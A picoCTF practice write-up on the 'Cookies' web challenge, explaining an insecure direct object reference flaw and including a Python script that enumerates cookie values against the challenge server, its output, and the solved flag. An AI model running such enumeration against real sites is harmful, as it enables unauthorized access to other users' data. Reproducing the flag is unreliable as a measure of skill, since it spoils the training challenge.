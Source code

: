 # Cookies | Mar 3, 2023

## Introduction

Welcome to my another writeup! In this picoGym [challenge](https://play.picoctf.org/practice/challenge/173?category=1&page=1), you'll learn: Exploiting IDOR (Insecure Direct Object Reference)! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Author: madStacks

Description

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)

## Find the flag

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/picoGym/Web-Exploitation/Cookies/images/Pasted%20image%2020230303170038.png)

**View source page:**
```html
<li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
[...]
<!-- Categories: success (green), info (blue), warning (yellow), danger (red) -->
<form role="form" action="/search" method="post">
    <div class="row">
        <div class="form-group">
            <input type="text" name="name" id="name" class="form-control input-lg" placeholder="snickerdoodle">
        </div>
    </div>
    <div class="row">
        <div class="col-xs-12 col-sm-12 col-md-12">
            <input type="submit" class="btn btn-lg btn-success btn-block" value="Search">
        </div>
    </div>
</form>
[...]
```

In here, we see there's a "Home" link, which points to endpoint `/reset`.

Then, we see a HTML comment, which says green = success, blue = info, yellow = warning, red = danger.

After that, we see there's a form. When we clicked the "Search" button, **it'll send a POST request to `/search`, with parameter `name`.**

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/picoGym/Web-Exploitation/Cookies/images/Pasted%20image%2020230303170452.png)

When we visit the web application first time, it'll redirect us to `/`, and **set a new cookie called `name`, with value `-1`.**

Let's try to search a cookie:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/picoGym/Web-Exploitation/Cookies/images/Pasted%20image%2020230303171710.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/picoGym/Web-Exploitation/Cookies/images/Pasted%20image%2020230303171716.png)

"That doesn't appear to be a valid cookie."

Hmm... **What if I change the `name` cookie's value to `1`?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/picoGym/Web-Exploitation/Cookies/images/Pasted%20image%2020230303171847.png)

**It's redirecting me to `/check`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/picoGym/Web-Exploitation/Cookies/images/Pasted%20image%2020230303171902.png)

Which sounds like checking the `name` cookie exist?

**Now, what if I increment 1 in the `name` cookie's value?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/picoGym/Web-Exploitation/Cookies/images/Pasted%20image%2020230303171947.png)

It returns "oatmeal raisin" cookies.

Armed with above information, **it looks like the `name` cookie is vulnerable to IDOR (Insecure Direct Object Reference)**, which allows attackers to view other `name` object without authentication.

**That being said, let's write a simple Python script to enumerate all `name` cookies!**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep
from bs4 import BeautifulSoup

class Requester:
    def __init__(self, URL):
        self.URL = URL

    def sendRequest(self, name):
        header = {
            'Cookie': f'name={name}'
        }

        requestResult = requests.get(self.URL, headers=header)
        soup = BeautifulSoup(requestResult.text, 'html.parser')
        cookieContent = soup.find(class_='jumbotron').get_text().strip()
        
        if 'That is a cookie!' in requestResult.text:
            print(f'[+] Found valid name: {name}, response: {cookieContent}')
        else:
            print(f'[+] Maybe invalid name?: {name}, response: {cookieContent}')

def main():
    URL = 'http://mercury.picoctf.net:21485/check'
    requester = Requester(URL)

    for name in range(50):
        print(f'[*] Trying: {name}', end='\r')
        thread = Thread(target=requester.sendRequest, args=(name,))
        thread.start()
        sleep(0.1)

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/picoGym/Web-Exploitation)-[2023.03.03|17:42:17(HKT)]
└> python3 cookies_enumerate_name.py
[+] Found valid name: 0, response: I love snickerdoodle cookies!
[+] Found valid name: 1, response: I love chocolate chip cookies!
[+] Found valid name: 2, response: I love oatmeal raisin cookies!
[+] Found valid name: 3, response: I love gingersnap cookies!
[+] Found valid name: 4, response: I love shortbread cookies!
[+] Found valid name: 5, response: I love peanut butter cookies!
[+] Found valid name: 6, response: I love whoopie pie cookies!
[+] Found valid name: 7, response: I love sugar cookies!
[+] Found valid name: 8, response: I love molasses cookies!
[+] Found valid name: 9, response: I love kiss cookies!
[+] Found valid name: 10, response: I love biscotti cookies!
[+] Found valid name: 11, response: I love butter cookies!
[+] Found valid name: 12, response: I love spritz cookies!
[+] Found valid name: 13, response: I love snowball cookies!
[+] Found valid name: 14, response: I love drop cookies!
[+] Found valid name: 15, response: I love thumbprint cookies!
[+] Found valid name: 16, response: I love pinwheel cookies!
[+] Found valid name: 17, response: I love wafer cookies!
[+] Maybe invalid name?: 18, response: Flag: picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}
[+] Found valid name: 19, response: I love macaroon cookies!
[+] Found valid name: 20, response: I love fortune cookies!
[+] Found valid name: 21, response: I love crinkle cookies!
[+] Found valid name: 22, response: I love icebox cookies!
[+] Found valid name: 23, response: I love gingerbread cookies!
[+] Found valid name: 24, response: I love tassie cookies!
[+] Found valid name: 25, response: I love lebkuchen cookies!
[+] Found valid name: 26, response: I love macaron cookies!
[+] Found valid name: 27, response: I love black and white cookies!
[+] Found valid name: 28, response: I love white chocolate macadamia cookies!
[+] Maybe invalid name?: 29, response: Welcome to my cookie search page. See how much I like different kinds of cookies!
```

**Nice! We found the flag in `name=18`!!**

- **Flag: `picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}`**

# What we've learned:

1. Exploiting IDOR (Insecure Direct Object Reference)